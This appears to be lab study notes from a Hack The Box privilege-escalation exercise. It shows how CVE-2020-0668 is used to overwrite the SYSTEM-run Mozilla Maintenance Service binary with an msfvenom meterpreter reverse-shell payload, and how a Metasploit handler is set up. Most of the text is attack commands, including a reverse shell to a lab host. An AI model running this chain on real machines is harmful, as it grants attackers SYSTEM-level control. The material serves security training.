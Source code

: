 ```
```
1. Building the solution should create the following files
```
CVE-2020-0668.exe
```
```
CVE-2020-0668.exe.config
```
```
CVE-2020-0668.pdb
```
```
NtApiDotNet.dll
```
```
NtApiDotNet.xml
```
We can also look for any third-party software, which can be leveraged, such as the Mozilla Maintenance Service. This service runs in the context of SYSTEM and is startable by unprivileged users. The (non-system protected) binary for this service is located below.
#### 1. Checking Permissions on Binary
```
C:\htb> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
icacls confirms that we only have read and execute permissions on this binary based on the line BUILTIN\Users:(I)(RX)
#### 2. Generating Malicious Binary
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```
OR we could generate a windows/x64/shell_reverse_tcp payload and start a netcat listener instead of metasploit
#### 3. Downloading the Malicious Binary
For this step we need to make two copies of the malicious .exe file. We can just pull it over twice or do it once and make a second copy.
#### 4. Running the Exploit
```
C:\htb> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
Checking Permissions of New File
```
C:\htb> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
```
`WINLPE-WS02\htb-student:(F)`. This means that our htb-student user has full control over the maintenanceservice.exe binary, and we can overwrite it with a non-corrupted version of our malicious binary.
#### 5. Replacing File with Malicious Binary
```
copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
`Sign out then back in`
#### 5.1 Metasploit Resource Script (if you generated a payload using metasploit in step two)
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```
Run the `maintenanceservice.exe`
This method did not work with me